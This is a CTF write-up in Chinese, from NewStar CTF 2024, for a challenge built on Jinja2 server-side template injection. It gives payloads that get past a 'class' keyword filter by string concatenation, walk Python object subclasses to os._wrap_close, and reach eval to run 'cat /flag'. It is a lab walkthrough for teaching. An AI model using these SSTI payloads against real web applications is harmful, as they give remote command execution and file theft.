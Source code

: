 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```


# 复读机

可以看到，输入什么就输出什么

输入 `{{ '{'+'{ 7*7 }'+'}' }}` 的时候，输出的结果是 49，说明存在 SSTI 注入

输入 `{{ '{'+'{ [].__class__}'+'}' }}`，发现 bot 显示不喜欢上课,说明 `class` 被过滤了，可以使用简单的拼接绕过

```python
{{[]['__cl'+'ass__']}}
```

得到 `list` 类

![简单的 SSTI](/assets/images/wp/2024/week2/fuduji_1.png)

后面就是基本的注入方法了

获取 `object` 类

```python
{{()['__cl'+'ass__']['__base__']}}
{{()['__cl'+'ass__']['__base__']['__subcl'+'asses__']}}
```

![获取 object 类](/assets/images/wp/2024/week2/fuduji_2.png)

找一个可以利用的类，这里选用 `os._wrap_close`

```python
{{()['__cl'+'ass__']['__base__']['__subcl'+'asses__'][132]}}
```

![获取 os._wrap_close](/assets/images/wp/2024/week2/fuduji_3.png)

然后就是拿到 `eval` 方法，命令执行就行

```python
{{()['__cl'+'ass__']['__base__']['__subcl'+'asses__']()[132]['__init__']['__globals__']['__builtins__']['eval']("__import__('os').popen('cat /flag').read()")}}
```

![命令执行](/assets/images/wp/2024/week2/fuduji_4.png)

方法很多，大家可以自己试试
